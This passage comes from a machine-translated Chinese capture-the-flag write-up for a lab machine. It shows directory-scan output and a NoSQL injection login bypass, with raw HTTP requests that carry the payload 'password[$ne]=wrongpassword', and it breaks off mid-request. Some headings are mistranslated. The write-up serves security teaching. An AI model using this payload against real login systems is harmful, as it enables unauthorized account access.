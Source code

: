     ───────────────────────────┴──────────────────────
     🏁  Press [ENTER] to use the Scan Cancel Menu™
    ──────────────────────────────────────────────────
    200       28l       59w     1002c http://10.10.11.139:5000/login
    200       28l       59w     1002c http://10.10.11.139:5000/Login
    200       28l       59w     1002c http://10.10.11.139:5000/LOGIN
    [####################] - 58s    29999/29999   0s      found:3       errors:0
    [####################] - 58s    29999/29999   515/s   http://10.10.11.139:5000
    

没有什么是我还不知道的。

## 壳牌作为管理员

### 通过无 SQL 注入进行身份验证旁路

一些基本的SQL注入没有做任何事情，也没有对登录表单进行快速运行。`sqlmap`

测试NoSQL注入比SQL注入的一些简单检查要棘手一些。PayloadsAllThings有一[个很好的有效负载部分](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection#authentication-bypass)用于NoSQL身份验证绕过，作为我将在这里展示的内容的方便参考。在这里，我们希望节点将输入作为 JSON 对象进行处理。默认情况下，页面以 HTML 表单的形式提交（这由请求中的标题设置）：`Content-Type`

    POST /login HTTP/1.1
    Host: 10.10.11.139:5000
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:95.0) Gecko/20100101 Firefox/95.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 29
    Origin: http://10.10.11.139:5000
    Connection: close
    Referer: http://10.10.11.139:5000/login
    Upgrade-Insecure-Requests: 1
    
    user=admin&password=wrongpassword
    

在这种格式中，我可以尝试将数据更改为：

    user=admin&password[$ne]=wrongpassword
    

如果服务器按照我想要的方式解释，它将使其查找密码不等于“错误密码”的记录，这将返回管理记录。

我会将登录POST请求发送到Burp中继器并尝试一下，但它不起作用。

发送数据的另一种方式是 JSON 格式。我将更改标头，然后将正文转换为 JSON（首先不进行任何注入，以确保站点正确处理它）：`Content-Type`

    POST /login HTTP/1.1
    Host: 10.10.11.139:5000
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:95.0) Gecko/20100101 Firefox/95.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/json
    Content-Length: 46
    Origin: http://10.10.11.139:5000
    Connection: close
    Referer: http://10.10.11.139:5000/login
    Upgrade-Insecure-Requests: 1
    